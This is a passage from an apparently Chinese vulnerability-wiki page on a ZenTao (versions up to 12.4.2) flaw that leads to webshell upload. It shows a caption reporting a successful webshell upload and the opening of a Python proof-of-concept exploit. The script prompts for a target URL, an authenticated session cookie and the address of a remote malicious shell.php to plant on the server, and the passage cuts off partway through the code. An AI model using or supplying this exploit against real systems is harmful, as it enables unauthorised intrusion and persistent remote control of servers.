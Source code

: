 成功上传webshell

![](image/zentao-10.png)

## 漏洞利用POC

> [!NOTE]
>
> POC使用需要拥有后台Cookie

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import base64
import requests
import random
import re
import json
import sys

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: zentao version <= 12.4.2                                 \033[0m')
    print('+  \033[36m使用格式: python3 CNVD-C-2020-121325.py                             \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mShell       >>> http://xxx.xxx.xxx.xxx/shell.php(恶意文件地址)       \033[0m')
    print('+  \033[36mZentaosid   >>> xxxxxxxxxxxxxx(cookie字段)                          \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    version_url = target_url + "/www/index.php?mode=getconfig"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
```